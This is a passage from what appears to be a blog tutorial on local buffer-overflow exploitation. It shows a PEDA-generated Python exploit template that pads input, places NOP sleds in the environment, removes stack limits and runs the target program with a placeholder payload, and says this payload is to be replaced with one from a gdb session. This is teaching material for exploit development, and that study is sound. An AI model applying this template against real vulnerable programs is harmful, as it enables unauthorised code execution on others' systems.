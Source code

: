     else:
        if num < 0:
            result = struct.pack("<l", num)
        else:
            result = struct.pack("<L", num)
    return result

i2hs = int2hexstr

def exploit(vuln):
    padding = pattern(0)
    payload = [padding]
    payload += ["PAYLOAD"] # put your payload here
    payload = list2hexstr(payload)
    args = [vuln, payload]
    env = {"PEDA":nops()}
    resource.setrlimit(resource.RLIMIT_STACK, (-1, -1))
    resource.setrlimit(resource.RLIMIT_CORE, (-1, -1))
    os.execve(vuln, args, env)

if __name__ == "__main__":
    if len(sys.argv) < 2:
        usage()
    else:
        exploit(sys.argv[1])
{% endhighlight %}
We have to modify this to include our payload from the gdb session, the output
looks like the following

{% highlight python %}
#!/usr/bin/env python
#
# Template for local argv exploit code, generated by PEDA
#
import os
import sys
import struct
import resource
import time

def usage():
    print "Usage: %s target_program" % sys.argv[0]
    return

def pattern(size=1024, start=0):
    try:
        bytes = open("pattern.txt").read(size+start)
        return bytes[start:]
    except:
        return "A"*size

def nops(size=1024):
    return "\x90"*size

def int2hexstr(num, intsize=4):
    if intsize == 8:
        if num < 0:
            result = struct.pack("<q", num)
        else:
            result = struct.pack("<Q", num)
    else:
        if num < 0:
            result = struct.pack("<l", num)
        else:
            result = struct.pack("<L", num)
    return result